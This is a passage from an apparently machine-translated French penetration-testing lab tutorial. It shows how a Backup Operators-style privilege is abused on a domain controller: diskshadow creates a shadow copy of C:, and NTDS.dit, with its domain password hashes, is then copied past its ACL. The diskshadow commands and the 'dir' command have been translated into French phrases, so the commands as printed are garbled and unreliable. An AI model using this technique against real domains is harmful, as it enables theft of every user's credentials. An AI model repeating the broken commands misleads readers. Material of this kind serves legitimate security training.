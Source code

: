 Les commandes ci-dessus montrent comment les informations sensibles ont été accédées sans posséder les autorisations requises.

#### Attaque d'un contrôleur de domaine - Copie de NTDS.dit

Ce groupe permet également de se connecter localement à un contrôleur de domaine. La base de données Active Directory `NTDS.dit` est une cible très attrayante, car elle contient les hachages NTLM pour tous les objets utilisateur et ordinateur du domaine. Cependant, ce fichier est verrouillé et n'est pas non plus accessible aux utilisateurs non privilégiés.

Comme le fichier `NTDS.dit` est verrouillé par défaut, nous pouvons utiliser l'utilitaire Windows [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) pour créez un cliché instantané du lecteur `C` et exposez-le en tant que lecteur `E` . Le NTDS.dit dans ce cliché instantané ne sera pas utilisé par le système.

Attaque d'un contrôleur de domaine - Copie de NTDS.dit

```
PS C:\htb> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
Sur ordinateur : DC, 14/10/2020 00:57:52

DISKSHADOW> activer le mode verbeux
DISKSHADOW> définir les métadonnées C:\Windows\Temp\meta.cab
DISKSHADOW> définir le contexte accessible au client
DISKSHADOW> définir le contexte persistant
DISKSHADOW> commencer la sauvegarde
DISKSHADOW> ajouter le volume C: alias cdrive
DISKSHADOW> créer
DISKSHADOW> exposer %cdrive% E :
DISKSHADOW> terminer la sauvegarde
DISKSHADOW> quitter

PS C:\htb> répertoire E :

     Annuaire : E :

Mode LastWriteTime Longueur Nom
---- ------------- ------ ----
d----- 06/05/2021 13:00 Confidentiel
d----- 15/09/2018 00:19 PerfLogs
d-r--- 24/03/2021 18:20 Fichiers de programme
d----- 15/09/2018 02h06 Fichiers de programme (x86)
d----- 06/05/2021 13:05 Outils
d-r--- 06/05/2021 12:51 Utilisateurs
d----- 24/03/2021 18:38 Fenêtres

```

#### Copier NTDS.dit localement

Ensuite, nous pouvons utiliser l'applet de commande `Copy-FileSeBackupPrivilege` pour contourner l'ACL et copier le NTDS.dit localement.
